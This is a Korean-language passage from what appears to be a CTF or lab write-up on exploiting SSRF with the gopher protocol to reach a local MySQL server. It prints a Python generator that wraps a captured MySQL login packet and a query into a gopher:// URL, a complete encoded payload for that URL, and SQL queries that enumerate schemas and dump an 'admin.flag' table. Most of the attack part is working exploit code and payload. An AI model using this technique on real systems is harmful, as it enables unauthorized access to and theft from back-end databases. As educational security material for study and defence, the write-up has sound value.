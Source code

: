 **gopher 패킷 구축**

- mysql 로 로그인한 해당 패킷 raw 데이터를 기반으로 gopher 패킷을 생성하여 쿼리를 수행할 수 있는 하나의 페이로드를 만들어보겠습니다.

[Automation/SSRF-through-Gopher.py at master · tarunkant/Automation](https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py)

- 위 script를 활용하여 raw 데이터를 gopher 패킷으로 formatting 할 수 있도록 도와주는 도구를 사용하였습니다.
- 직접 구성을 해서 만드는 것도 추천합니다.

```php
dump = raw_input("Give connection packet of mysql: ")
query = raw_input("Give query to execute: ")

auth = dump.replace("\n","")

def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)

def get_payload(query):
    if(query.strip()!=''):
    	query = query.encode("hex")
    	query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    	pay1 = query_length.rjust(2,'0') + "00000003" + query
    	final = encode(auth + pay1 + "0100000001")
    	return final
    else:
	return encode(auth)

print "\nYour gopher link is ready to do SSRF : \n"
print get_payload(query)
```

- 최종적인 요청 패킷을 만들어 전송시 로그인이 완료되고 쿼리를 수행할 수 있습니다.

```php
gopher://127.0.0.1:3306/_%25%00%00%01%85%a6%03%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%40%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%74%61%62%6c%65%5f%6e%61%6d%65%29%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%3b%01%00%00%00%01%25%00%00%01%85%a6%03%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%40%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%74%61%62%6c%65%5f%6e%61%6d%65%29%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%3b%01%00%00%00%01'
```

- 다음과 같은 쿼리를 구성해서 gopher 패킷을 제작해 전송하여 서버측 데이터베이스 의 정보를 탈취할 수 있습니다.

```php
select @@version_comment limit 1@ select group_concat(table_name) from information_schema.tables;

SELECT * FROM Information_schema.tables WHERE table_schema = 'admin' AND table_name = 'flag';

admin flag BASE TABLEInnoDB 10

select table_name,column_name from information_schema.columns where table_schema = 'admin' and table_name = "admin";

use admin;select * from flag;
```

---